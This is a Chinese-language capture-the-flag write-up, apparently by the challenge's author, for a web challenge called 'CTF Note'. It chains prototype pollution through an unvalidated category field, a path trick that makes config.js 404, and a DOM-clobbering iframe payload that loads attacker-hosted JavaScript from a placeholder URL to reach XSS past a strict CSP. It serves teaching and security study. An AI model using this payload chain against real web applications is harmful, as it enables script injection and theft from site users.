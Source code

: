 # CTF Note

- Category: Web
- Solves: 0 / 95 (scores >= 1), 55 (scores > 1)

## Solution

### TL;DR
1. Use `category` to prototype pollution that markdown.js library: write arbitrary HTML
2. Use `/whatever/..%2f` to make `config.js` 404
3. DOM Clobbering: create a nyanCat plugin yourself, load arbitrary js
4. XSS!

### Detailed Solution

總之這是一個可以發 writeup 的網站，其中我們可以為每個題目設定：類別、名稱、writeup 內容，而 writeup 的部分是使用 [markdown.js](https://github.com/evilstreak/markdown-js) 這個 library render 的。

第一個會發現的問題是：雖然前端限制了 `category` 部分的值，但後端並沒有驗證，是可以寫任意值的。這樣會有什麼問題呢？`app.js:65` 有這樣的一行程式：
```javascript
WriteUps[writeup.category][writeup.challenge] = writeup.content;
```
那如果我們將某題的 `category` 設定為 `__proto__`，就可以順利進行 prototype pollution 了。

知道這件事後應該可以很快地發現：一旦成功污染了 `Object` 的 prototype，會導致 markdown render 出來的每個 element 都被加上 `[challenge]=[content]` 的 attribute，而 `challenge`（也就是 attribute name）的部分是不會被 HTML escape 掉的，可以寫入任意 HTML。

不過由於有嚴格的 CSP 限制，我們目前還做不到 XSS
```
Content-Security-Policy:
	default-src 'none'; base-uri 'none'; img-src 'self'; style-src 'self'; connect-src 'self'; script-src 'strict-dynamic' 'nonce-[hex]'
```

這邊比較值得一提的是 `script-src 'strict-dynamic' 'nonce-{hex}'` 的意義：
- nonce-{hex} 限制了只能載入有帶特定 nonce 的 script element 的 JavaScript。
- 'strict-dynamic' 可以參考 [CSP Reference](https://content-security-policy.com/strict-dynamic/)；以這個場景而言，它會允許有帶 nonce 的 script 元素插入任何 script element 並執行其 js。

而這題 `app.js` 中的 `loadPlugin` function 恰好符合這個條件可以載入 script
```javascript
function loadPlugin(pluginName) {
    if (!(pluginName in CONFIG.plugins)) return;
    let script = document.createElement('script');
    script.src = CONFIG.plugins[pluginName];
    document.body.appendChild(script);
}
```
但如我們所見，它傳入了 `pluginName`，並從 `CONFIG.plugins[pluginName]` 裏讀出 js 路徑。因此想要任意載入自己的 js，就必須先控制 `CONFIG`；而 `CONFIG` 是從 `config.js` 裏載入的：

```javascript
const CONFIG = {
    productName: "CTF Note",
    version: "v0.0.87",
    plugins: {
        nyanCat: '/plugins/nyan.js',
        xssSimulator: '/plugins/xss.js'
    }
};
```

這時候我們可以回頭看看任意寫入 HTML 能幫助我們做到什麼事情吧！

有一個技巧叫做 DOM clobbering（各種技巧可以參考 [PortSwigger 的文章](https://portswigger.net/research/dom-clobbering-strikes-back)），是一種透過操作 DOM 並藉此劫持 js 中數值（基本上是全域變數）的技巧。

顯然的，我們想要控制的是 `CONFIG` 這個東西，但問題是直接 DOM clobbering 蓋不掉現有的變數啊，怎麼辦呢？簡單，只要把它弄不見就好了！

其實應該可以發現 `config.js` 在 HTML 中引入的寫法和其他 js、css 是有點不一樣的，別人都是 `/static` 底下的絕對路徑，但 `config.js` 卻是相對路徑的寫法。
```html
<script nonce="nonce" src="config.js"></script>
```

我們可以利用這點讓 config.js 404，怎麼做到呢？由於 nginx 和瀏覽器解析路徑的方法有些不同，因此可以構造出一個 nginx 讀得到，但瀏覽器卻讀不到的路徑：
```
http://ctf-note.splitline.tw:9527/meow/..%2f
```
- 對於 nginx 而言，它會因為 `..%2f` 返回上一層目錄，順利顯示出 / 該有的內容。
- 對於瀏覽器而言，`..%2f` 只是 `meow` 目錄下的一個檔案名稱，因此以相對路徑而言會讀到 `/meow/config.js`。

如此一來 config.js 就 404 not found 了，順利使 `CONFIG` 消失。

接下來就再回到 DOM clobbering，我們可以使用 iframe + srcdoc 的方法構造出 `CONFIG.plugins.nyanCat`：

```html
<iframe name=CONFIG srcdoc="
    <iframe id=CONFIG name=plugins
        srcdoc='<a id=nyanCat href=http://url/to/your.js>test</a>'>
"></iframe>
```

至此，我們已經能成功塞進去自己的 js，達成 full XSS！實際攻擊腳本可以參考 `solution.py`。


## Postscript

個人覺得這題是這場 CTF 中我出的題目裡我最喜歡的一題，一開始想到要把 prototype pollution 跟 DOM clobbering 結合在一起就出了這題，其實也是花了蠻多時間設計題目場景。話說回來這也是我第一次正式出 XSS 題，真的是蠻累的，前端、後端以及 xss bot 全都要認真設計，如果是純後端題的話前端可以隨便寫就好了 XD

感覺很多人都差最後一步了，卡在不知道怎麼蓋掉 config.js，最後沒人解出還是覺得有點可惜，本來是希望能有一～二隊解的 XD